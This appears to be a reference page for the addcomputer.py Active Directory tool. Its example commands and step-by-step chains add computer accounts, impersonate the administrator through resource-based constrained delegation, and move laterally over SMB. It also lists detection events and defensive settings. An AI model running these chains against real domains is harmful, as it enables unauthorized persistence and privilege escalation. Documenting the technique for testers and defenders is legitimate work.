 # addcomputer.py

## Overview
The `addcomputer.py` script allows attackers to add computer accounts to an Active Directory domain. This technique is useful for persistence and can be leveraged in various attack scenarios where you have credentials but need to establish a persistent presence in the domain.

## Detailed Description
This script leverages the `MachineAccountQuota` attribute in Active Directory, which by default allows any authenticated user to add up to 10 computer accounts to the domain. The script supports both SAMR over SMB (used by modern Windows) and LDAPS protocols for adding computer accounts.

### Key Features:
- Add computer accounts using SAMR over SMB
- Add computer accounts using LDAPS
- Set custom passwords for computer accounts
- Support for both password and hash authentication
- Kerberos authentication support

### Technical Details:
- Uses SAMR (Security Account Manager Remote) protocol
- Leverages the `SeMachineAccountPrivilege` or `MachineAccountQuota`
- Creates computer objects in the default Computers container
- Sets the `userAccountControl` attribute appropriately for computer accounts

## Command Line Options

```
usage: addcomputer.py [-h] [-computer-name COMPUTER_NAME] [-computer-pass COMPUTER_PASS]
                      [-method {SAMR,LDAPS}] [-port PORT] [-domain-netbios NETBIOSDOMAIN]
                      [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                      [-dc-host hostname] [-dc-ip ip] [-debug]
                      identity

Required Arguments:
  identity              [domain/]username[:password]

Optional Arguments:
  -computer-name        Name of computer to add (default: random)
  -computer-pass        Password for computer account (default: random)
  -method               Method to use (SAMR or LDAPS, default: SAMR)
  -port                 Port to connect to (default: 445 for SAMR, 636 for LDAPS)
  -domain-netbios       Domain NetBIOS name
  -hashes               NTLM hashes (LM:NT)
  -no-pass              Don't ask for password
  -k                    Use Kerberos authentication
  -aesKey               AES key for Kerberos authentication
  -dc-host              Domain controller hostname
  -dc-ip                Domain controller IP address
  -debug                Enable debug output
```

## Usage Examples

### Basic Usage
```bash
# Add computer with random name and password using SAMR
python3 addcomputer.py domain.com/user:password

# Add computer with specific name and password
python3 addcomputer.py domain.com/user:password -computer-name ATTACKPC01 -computer-pass P@ssw0rd123
```

### Using LDAPS Method
```bash
# Add computer using LDAPS (requires SSL/TLS)
python3 addcomputer.py domain.com/user:password -method LDAPS -computer-name EVILPC
```

### Using Hash Authentication
```bash
# Add computer using NTLM hash
python3 addcomputer.py domain.com/user -hashes :ntlmhash -computer-name MALWAREPC
```

### Using Kerberos Authentication
```bash
# Add computer using Kerberos (requires valid TGT)
python3 addcomputer.py domain.com/user -k -dc-ip 192.168.1.10 -computer-name KRBPC
```

## Attack Chain Integration

### Post-Exploitation Persistence
1. **Initial Access**: Gain credentials through various means
2. **Computer Addition**: Use `addcomputer.py` to create persistent computer account
3. **Authentication**: Use the computer account for subsequent operations
4. **Lateral Movement**: Leverage computer account for movement

```bash
# Step 1: Add computer account
python3 addcomputer.py domain.com/user:password -computer-name PERSIST01 -computer-pass MySecretPass123

# Step 2: Use computer account for authentication
python3 getST.py domain.com/PERSIST01$:MySecretPass123 -spn cifs/target.domain.com

# Step 3: Use service ticket for lateral movement
export KRB5CCNAME=PERSIST01$.ccache
python3 smbclient.py target.domain.com -k -no-pass
```

### Resource-Based Constrained Delegation (RBCD) Setup
```bash
# Step 1: Add computer account
python3 addcomputer.py domain.com/user:password -computer-name RBCD01 -computer-pass RBCDPass123

# Step 2: Configure RBCD on target
python3 rbcd.py domain.com/user:password -delegate-from RBCD01$ -delegate-to target$ -action write

# Step 3: Request service ticket
python3 getST.py domain.com/RBCD01$:RBCDPass123 -spn cifs/target.domain.com -impersonate administrator
```

## Prerequisites
- Valid domain credentials (user account)
- Network access to domain controller
- Domain must allow computer account creation (MachineAccountQuota > 0)
- For LDAPS: SSL/TLS certificate validation or certificate bypass

## Detection Considerations
- Event ID 4741: Computer account was created
- Unusual computer names or naming patterns
- Computer accounts created by non-administrative users
- Multiple computer accounts created by same user
- Monitor LDAP/SAMR connections for computer creation operations

## Defensive Measures
- Set `MachineAccountQuota` to 0 in domain
- Monitor computer account creation events
- Implement strict naming conventions for computer accounts
- Use Group Policy to restrict computer account creation
- Regular audit of computer accounts in domain

## Related Tools
- [rbcd.py](rbcd.md) - Configure Resource-Based Constrained Delegation
- [getST.py](getST.md) - Request service tickets using computer accounts
- [dacledit.py](dacledit.md) - Modify permissions on created computer accounts
- [GetADComputers.py](GetADComputers.md) - Enumerate computer accounts including newly created ones
